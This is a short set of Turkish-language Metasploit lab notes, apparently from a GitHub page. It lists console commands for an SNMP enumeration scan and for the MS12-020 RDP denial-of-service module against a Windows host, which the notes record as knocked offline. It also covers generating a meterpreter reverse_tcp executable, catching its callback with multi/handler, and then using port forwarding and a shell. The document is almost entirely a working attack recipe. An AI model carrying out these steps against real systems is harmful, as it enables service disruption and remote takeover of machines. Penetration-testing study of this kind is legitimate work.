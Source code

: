 ## Auxiliary:

**- Uygulama:**

  **- Scanner uygulaması**

    P~> show auxiliary
    
    P~> search snmp
    
    P~> use auxiliary/scanner/snmp/sbg6580_enum
    
    A~> show options
    
    A~> set RHOSTS 172.16.193.158
    
    A~> exploit

  **- DoS Uygulaması:**  

    A~> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    
    A~> show options
    
    A~> set RHOST 172.16.193.149 
    
    A~> check
    
    A~> exploit
    
    ---172.16.193.149(windows) iptal---

  **- Payload'ı çalıştırılabilir bir dosya olarak sistemde bırakmak:**
    
    A~> use payload/windows/meterpreter/reverse_tcp
    
    M> show options
    
    M> set LHOST 172.16.193.151
    
    M> generate (mevcut payload'ları çalıştırılabilir dosya haline dönüştürür)
    
    M> generate -t exe -f payload.exe (payload'ı bulunduğumuz dizine payload.exe olarak çıkartır)
    
  **- Gelen payload'ı dinleyebilmek için:**
    
    M> use exploit/multi/handler 
    
    ~~> show options
    
    ~~> set LHOST 172.16.193.151
    
    ~~> set LPORT 4444
    
    ~~> run
   
    M> (meterpreter konsolu açılır)
   
    M> portfwd add -l 2222 -r 192.168.0.1 -p 80 (hedef sisteme route tanımı girer)
   
    M> portfwd delete -l 2222
   
    M> shell
   